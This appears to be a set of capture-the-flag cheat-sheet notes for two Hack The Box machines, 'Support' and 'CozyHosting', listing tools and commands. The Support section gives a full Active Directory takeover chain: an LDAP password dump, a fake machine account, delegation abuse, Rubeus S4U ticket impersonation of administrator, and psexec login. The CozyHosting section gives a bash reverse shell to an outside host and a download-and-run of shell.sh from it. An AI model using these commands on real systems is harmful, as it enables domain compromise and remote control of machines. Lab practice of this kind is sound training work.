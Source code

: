 ### Tools
- **Nmap**
- **Smbclient**
- **Mono**: `sudo apt install mono-complete`
- **Wireshark**: Check LDAP queries
- **ldapsearch**: Used to get the support account password

### Commands
- `ldapsearch -D support\\ldap -H ldap://10.10.11.174 -w <password> -b 'CN=Users,DC=support,DC=htb' | grep info`
- `cut -d "," -f 2 demo.cs`

### PowerShell Scripts & EXEs
- **powerview.ps1**: `Import-Module .\`
- **powermad.ps1**: `Import-Module .\`
- **Rubeus.exe**: Run with specific commands

### PowerMad
- Create Machine Account: `New-MachineAccount -MachineAccount newm -Password $(ConvertTo-SecureString 'password' -AsPlainText -Force)`

### PowerView
- Get Computer SID: `$ComputerSid = Get-DomainComputer newm -Properties objectsid | Select -Expand objectsid`

### ACE & DACL
- Create and set ACE: Get the binary bytes and change `msDS-AllowedToActOnBehalfOfOtherIdentity`

### Rubeus
- Hash password: `.\Rubeus.exe hash /password:password`
- Get a Ticket: `.\Rubeus.exe s4u /user:newm$ /rc4:<hash> /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt`

### Ticket Manipulation
- Base64 decode: `cat ticket.txt | base64 -d > btacket.txt`
- Convert to ccache: `impacket-ticketConverter btacket.txt testing.txt`
- Connect to machine: `export KRB5CCNAME=testing.txt; impacket-psexec support.htb/Administrator@dc.support.htb -dc-ip 10.10.11.174 -k -no-pass`

## CozyHosting

### Directory Enumeration
- **dirsearch**: `dirsearch -u cozyhosting.htb`

### Reverse Shell
- Bash command: `bash -i >& /dev/tcp/10.10.14.6/8008 0>&1`
- Download: `curl http://10.10.14.6:8000/shell.sh --output /tmp/shell.sh`
- Permission: `chmod 777 /tmp/shell.sh`
- Execute: `/tmp/shell.sh`
